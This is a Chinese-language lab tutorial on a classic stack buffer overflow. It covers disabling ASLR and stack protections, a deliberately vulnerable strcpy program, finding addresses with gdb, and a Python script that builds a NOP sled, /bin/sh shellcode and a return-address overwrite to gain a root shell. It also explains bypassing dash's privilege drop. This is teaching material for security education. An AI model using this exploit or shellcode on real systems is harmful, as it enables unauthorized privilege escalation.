


# 溢出攻击环境准备

## 关闭地址空间随机化

地址空间随机化（address space layout randomization，ASLR）是针对缓冲区溢出攻击的防御措施之一。目的
是让攻击者难以猜测到所注入的恶意代码在内存中的具体位置。    
可以使用以下指令关闭这个机制：  
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

## 攻击环境准备
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char *str)
{
    char buffer[100];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[400];
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);
    
    printf("Returned Properly\n");
    return 1;
}
```


!!! gcc编译指令

    -z execstack 默认情况下，栈不可执行，这个参数设置为可执行栈  
    -fno-stack-protector 关闭StackGuard保护机制，这个机制用来检测缓冲区溢出  
    
## 验证栈的起始地址是固定的

通过上述实验，发生了缓冲区溢出，现在的问题是如何找到注入代码的内存地址。可以利用两个特点来
猜测恶意代码的具体位置：  
1. 多数操作系统把栈（每个进程有一个栈）放在固定的起始地址  
2. 多数程序的栈不深  

```c
#include <stdio.h>

int main()
{
    int x=3;
    printf("address is %p\n", &x);
    return 1;
}
```


!!! warning

    书中printf(":: a1's address is 0x%x\n", (unsigned int) &a1);这种方式打印
    会报cast from pointer to integer of different siz错误

## NOP指令可以提高猜测成功概率


NOP指令什么都不做，告诉CPU往前走，猜中任意NOP指令可以继续往前走

## 通过调试程序找到地址

可以通过调试手段寻找栈帧的地址，然后通过栈帧地址推导出注入代码的位置

!!! gcc指令

    -g选项把调试信息添加到二进制文件中

安装gdb调试程序
```bash
sudo apt install gdb -y
```




  从结果可知，帧指针0xbffff528，返回地址保存在0xbffff528 + 4，第一个NOP指令在0xbffff528 + 8，
因此可以将0xbffff528 + 8作为恶意代码的入口地址，把它写入返回地址字段中。  
  返回地址字段在输入数据中又处于哪个位置？由于输入复制到buffer中，为了让输入中的返回地址字段准确地覆盖栈中的返回
地址区域，需要知道栈中buffer和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置。  
  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为108，由于返回地址区域在ebp指向位置上面的4字节处，
因此返回地址区域到buffer起始处的距离就是112。

!!! gdb调试命令

    b foo在foo函数处设置一个断点  
    run 运行到断点处  
    p $ebp 打印帧指针，32位程序用p $ebp  
    p/d 表示用十进制打印  
    next 查看下一个语句  

!!! 64位系统和32位系统区别

    占用字节：32位，返回地址和帧指针各占4个字节，64位则占8个字节  
    帧指针寄存器： 32位，叫ebp，64位叫rbp

!!! 堆栈中的寄存器

    EIP/RIP 存储的是CPU下次要执行的指令地址  
    EBP/RBP 存储的是栈底指针  
    ESP/RSP 存储的是栈顶指针  

## 构造输入文件

```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(300))
start = 300 - len(shellcode)
content[start:] = shellcode

ret = 0xbffff528 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')
file = open("badfile", "wb")
file.write(content)
file.close()
```


成功溢出攻击得到root权限  &#x1F44D;&#x1F44D;&#x1F44D;

有小伙伴用seed虚拟机发现最后得到的是一个普通的shell窗口，可以查看下是否以下原因：

!!! warning

    Ubuntu 16.04以上版本，/bin/sh实际上是一个指向/bin/dash的链接文件，dash实现了
    一个保护机制，当它发现自己在一个Set-UID的进程中运行时，会立刻把有效用户id变成实际
    用户id，主动放弃特权。故利用/bin/sh发起的攻击不会成功。这也是上面显示Permission denied
    的原因    
    需要安装一个zsh的shell程序来做这个实验  
    sudo apt install zsh  
    sudo ln -sf /bin/zsh /bin/sh